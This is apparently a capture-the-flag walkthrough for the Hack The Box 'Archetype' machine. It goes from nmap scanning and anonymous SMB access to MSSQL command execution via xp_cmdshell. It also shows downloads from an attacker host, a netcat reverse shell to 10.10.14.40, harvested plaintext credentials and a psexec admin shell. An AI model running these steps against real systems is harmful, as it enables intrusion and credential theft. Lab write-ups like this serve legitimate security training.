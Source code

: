 ```yaml
---

title: Archetype
published: true
category: CTF
system: windows
walkthrough-type: htb
source: https://app.hackthebox.com/starting-point
Description: Easy hackthebox machine from nmap to root with some impacket and smb.
tags: Network, Protocols, MSSQL, SMB, Impacket, Powershell, Penetration Tester Level 1, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access
---
```


Start off with an nmap after adding archetype to `/etc/hosts`.

- `nmap -p-` followed by `sudo nmap -sC -sT -sV -O -p135,139,445,1433,5985 archetype.htb -oN nmap_1`

```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2022-12-29T06:54:24+00:00; 0s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-12-29T06:47:55
|_Not valid after:  2052-12-29T06:47:55
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T22:54:15-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m00s, deviation: 4h00m01s, median: 0s
| smb2-time: 
|   date: 2022-12-29T06:54:17
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

Port 1433 has an SQL server and we have a SMB share that we can access anonomysly, and grab a file with some credentials for the SQL server.

1. `smbclient -L archetype.htb` to list the shares
2. `smbclient \\\\archetype.htb\\backups` 
3. `dir` to check for files and `get prod.dtsConfig`

Checking this file we see a password and user `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

Lets try to use impackets `mssqlclient.py` to connect

- `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@archetype.htb -windows-auth`

We're connected. We can use `help` and then see that we can execute commands with `xp_cmdshell cmd`. `xp_cmdshell` is disabled by default but no worries we can enable this `enable_xp_cmdshell` and then we are free to run commands. We can upload an `nc64.exe` to the target. Set up a python server on our attaker `python3 -m http.server 80`, and a listener `nc -nvlp 6666`

Download the file to the attacker `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.40/nc64.exe -outfile nc64.exe"` Then we can use it to connect back to our listener: `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.40 6666"`

Download winpeas to the target `powershell wget http://10.10.14.40/winPEASx64.exe -outfile winpeas.exe`

- `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

We can see the user creds `administrator:MEGACORP_4dm1n!!`

User flag: `type user.txt` from sql_svc's desktop

With the admin credentials we can use the `psexec.py` took now to gain an admin shell.

- `python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@archetype.htb`

Root flag: login to administrator and check desktop.


